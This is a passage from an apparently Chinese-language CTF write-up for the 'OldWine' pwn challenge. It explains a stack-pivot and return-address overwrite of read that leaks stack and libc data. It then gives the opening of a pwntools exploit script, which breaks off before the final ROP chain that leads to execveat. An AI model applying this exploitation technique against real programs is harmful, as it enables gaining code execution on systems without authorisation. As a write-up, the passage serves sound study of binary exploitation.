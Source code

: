 如果将`[rbp]`调整为`rbp + 0x10`，那么栈布局就会变为：

![stack after](assets/stack_after.png)

为什么要这么做？反汇编`read`，如果成功读取，那么有效的指令只有：

```x86asm
cmp byte ptr [rip + __libc_single_threaded], 0
je  read+32
xor eax, eax
syscall
cmp rax, -0x1000
ja  read+104
ret
```

因此在`call read@plt`时，rsp只扩展了8字节，也就是返回地址。查看上面的栈布局，
不难发现，当`call`时，rsp刚好等于`rbp - 0x10`，也就是说，我们可以控制参数，
向`read`函数的返回地址写入数据。将`idx`和`size`分别控制为0和一个比较大的值，
由于rsi和rdx没有变化，可以将返回地址劫持到`main`函数中`mov edi, 1; call write@plt;`的地方，
这样就可以泄露出栈上的数据，找到libc的值。

后面就简单了，打传统rop，走`execveat`就可以。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './OldWine'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, 'b read if $rdx == 0x100')
    else:
        t = remote('', 9999)

    def pivot():
        t.sendlineafter(b'pivoting', b'2')

    def arbwrite(idx: int, size: int, fill: bytes):
        t.sendlineafter(b'pivoting', b'1')
        t.sendlineafter(b'size', str(size).encode())
        t.sendlineafter(b'index: ', str(idx).encode())
        t.send(fill)

    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.39-0ubuntu8.4_amd64/libc.so.6')

    stklo = int(input('Lowest byte: '), 0) if lo & 2 else 0
    arbwrite(0x10, 2, pack(stklo, 'all'))
    pivot()
    arbwrite(0, 0x100, p8(0x45)) # <main+0x5a> mov edi, 1; call write@plt;
    stkbuf = t.recv(0x100)
    if b'pivoting' in stkbuf:
        t.close()
        return 0
```